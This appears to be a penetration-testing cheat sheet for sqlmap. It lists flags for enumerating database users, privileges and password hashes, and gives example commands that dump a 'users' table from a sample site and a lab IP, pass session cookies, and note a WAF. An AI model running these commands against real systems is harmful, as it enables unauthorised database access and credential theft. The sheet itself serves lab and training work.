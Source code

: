 ```console
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
### DB data
```console
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```
Scanning remote system
```console
sqlmap.py -u "http://www.site.com/section.php?id=51"
```
Discover Databases
```console
sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs
```
Find tables in a particular database
```console
sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics
```
Get columns of a table
```console
sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users
```
Get data from a table
```console
sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D safecosmetics -T users
```
With HTTPS
```console
sqlmap.py -r request.req --force-ssl --batch
```
Using **--force-ssl** for the HTTPS site, and **--batch** will accept the default answers to all the prompts that pop up.

*In most lab scenarios, the database will be MySQL so we can add the **--dbms=mysql** parameter to the command line*
```console
sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs --dbms=mysql
```
### Passing tokens
If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the -r option:
```console
sqlmap -r request.txt
```
If you just need to pass a cookie:
```console
sqlmap -u "http://10.10.10.185/login.php" --cookie "PHPSESSID=foobar"
```
### Bypassing the WAF
There’s some kind of **WAF** on the site that triggers when it’s being scanned for SQL injections.
There’s an HTTP header in the response that confirms this:
```console
Pragma: no-cache
Vary: Accept-Encoding
IronWAF: 2.0.3
```
